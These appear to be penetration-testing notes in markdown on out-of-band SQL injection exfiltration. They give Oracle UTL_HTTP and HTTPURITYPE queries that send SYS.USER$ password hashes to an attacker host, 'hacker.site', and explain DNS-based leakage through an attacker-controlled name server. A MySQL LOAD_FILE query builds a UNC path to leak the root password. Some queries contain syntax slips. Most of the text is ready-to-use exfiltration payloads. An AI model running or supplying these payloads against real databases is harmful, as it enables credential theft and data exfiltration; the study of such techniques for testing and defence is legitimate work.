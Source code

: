 Two useful funcions: 
```
REQUEST
REQUEST_PIECES
```

Only the REQUEST can be used in a SQL query:
```sql
SELECT UTL_HTTP.REQUEST ('hacker.site/'||(SELECT spare4 FROM SYS.USER$ WHERE ROWNUM=1)) FROM DUAL;
```

The REQUEST_PIECES must be used within a PL/SQL Block
*example in images


Oracle HTTPURITYPE Package

- The first one is often disabled

We can also exfiltrate information via HTTP:
```sql
SELECT HTTPURITYPE ('hacker.site'/||(SELECT spare4 FROM SYS.USER$ WHERE ROWNUM=1)).getclob() FROM DUAL;

# getclob() method returns the character large object (CLOB), but we can also use other methods such as: GETBLOB(), GETXML() and GETCONTENTTYPE()
```

### OOB via DNS
In this context, instead of controlling the web server we have to control a DNS server.

> Even if the administrator sets an aggressive firewall policy filtering out any outgoing connections, the victim site will still both be able to reply to requests and perform DNS queries.

- The server uses a DNS resolver configured by the network administrator, but the resolver needs to contact a DNS server under the attackers control, therefore giving back the results of the injection to the attacker.
- As a requirement the hacker must have access to the DNS Server.


> The server must be registered as the authoritative name server For that Zone (e.g. hacker.site)


Provoking DNS Requests

#### MySQL (win)

Function: LOAD_FILE() reads the file and returns the file contents as a string:
```sql
SELECT LOAD_FILE("C:\\Windows\\system.uni");
```

We can exploit this function and provoke DNS requests by requesting a UNC path like this: \\[data].hacker.site
```sql
SELECT LOAD_FILE(CONCAT('\\\\', 'SELECT password FROM mysql.user WHERE user=\'root\'','.hacker.site'));
```

#### MSSQL
We can provoke DNS requests by using **UNC Paths** as we did with MySQL

